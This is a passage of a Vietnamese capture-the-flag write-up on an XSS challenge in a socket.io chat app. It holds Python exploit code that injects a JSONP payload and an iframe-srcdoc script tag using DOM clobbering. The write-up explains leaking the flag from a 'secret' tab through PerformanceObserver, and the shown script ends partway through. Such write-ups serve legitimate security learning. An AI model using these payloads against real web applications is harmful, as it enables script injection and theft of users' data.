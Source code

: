 ```py
    global ready

    if not ready:
        return

    print('message', data)
    if data['content'] == 'FizzBuzz101 joined.': # XSS bot opened the chat
        sid = create_sid()
        jsonp_url = f'{base_url}/socket.io/?EIO=4&transport=polling&t=bingus&sid={sid}&j=0'
        js_payload = "(alert(origin))"

        sio.emit('message', '\\"+'+js_payload+');//')

        xss_payload = """
<a id=&quot;___eio&quot;></a>
<script src=&quot;%s&quot;></script>
""" % jsonp_url
        chat_message = '<iframe id="xss" srcdoc="%s"></iframe>' % xss_payload.strip()
        sio.emit('message', chat_message)

sio.connect(base_url)
sio.wait()
```

trước khi emit lần 2, ta wrap payload vào trong `srcdoc` của iframe để tag `script` có thể chạy, đối với dòng `<a id=&quot;___eio&quot;></a>` thì mục đích là để thông qua DOM clobbering khởi tạo biến `__eio` để khi chạy payload sẽ không bị báo lỗi vì lúc này `__eio` chưa được khai báo (smart :O)

![image](https://github.com/user-attachments/assets/9b7f7a1a-d627-47bc-a539-78649cadbfa2)

### Leaking flag with PerformanceObserver

Trong giải mình có attemp bài này và hướng của mình là thông qua CSS để để leak flag, do đó mà mình đọc spec cũng như source chromium thì mình có tìm ra được là có một CSS combinator gọi là `/deep/` có khả năng chọc xuyên Shadow DOM, nhưng từ sớm đã bị deprecated và removed khỏi google chrome, shame. Quay trở lại bài, original solution của `Trixter` đã split XSS thành 2 stage để bypass qua giới hạn độ dài payload 400 bytes, stage 1 thực hiện `open('', 'secret')` để lấy reference đến tab `secret` chứa flag, tiếp theo là tiếp tục include script của stage 2. Ở stage 2 thì `Trixter` sử dụng một API là `PerformanceObserver` để để leak flag thông qua việc truy xuất vào url của các resource entry

![image](https://github.com/user-attachments/assets/50d32afd-7ed6-4c5d-a75c-325bbcd3c766)

API này cho phép ta truy cập vào tất cả các resource đã load cũng như các thông số về performance khi load của resource đó (quite powerful), full script:

```py
import socketio
import requests
import time
import json

base_url = "http://localhost:8080"

def create_sid():
    session = requests.Session()
    login = session.post(f'{base_url}/', data = {}, allow_redirects=False)
    assert login.status_code == 302, login.status_code

    res = session.get(f'{base_url}/socket.io/', params = {
        'EIO': 4,
        'transport': 'polling',
        't': 'bingus',
    })
    assert res.status_code == 200, res.status_code
```